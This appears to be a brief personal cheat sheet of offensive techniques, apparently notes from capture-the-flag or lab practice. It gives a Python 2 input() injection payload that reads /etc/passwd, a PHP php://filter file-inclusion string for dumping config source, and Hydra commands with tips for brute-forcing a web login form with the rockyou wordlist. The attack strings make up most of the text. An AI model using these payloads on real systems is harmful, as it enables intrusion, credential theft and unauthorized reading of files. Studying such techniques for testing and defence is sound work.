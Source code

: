 ## Learnings:
input() in python2 is not safe, equivalent to eval() 
exploiting input() command: 

__import__("os").system('cat /etc/passwd')


##  PHP:
fetching source files : 
index.php?file=php://filter/convert.base64-encode/resource=config 

## Hydra:
hydra -s 45885 -l admin www.bruteforce.me -P rockyou.txt http-form-post "/:password=^PASS^:F=Invalid"
"/login.php:user=^USER^&pass=^PASS^:S=successful"  from docs.
follow the format ' path : inputs : F=failure condition"   , -s specifies port , even if u send pass only, specify user for it to run smoothly
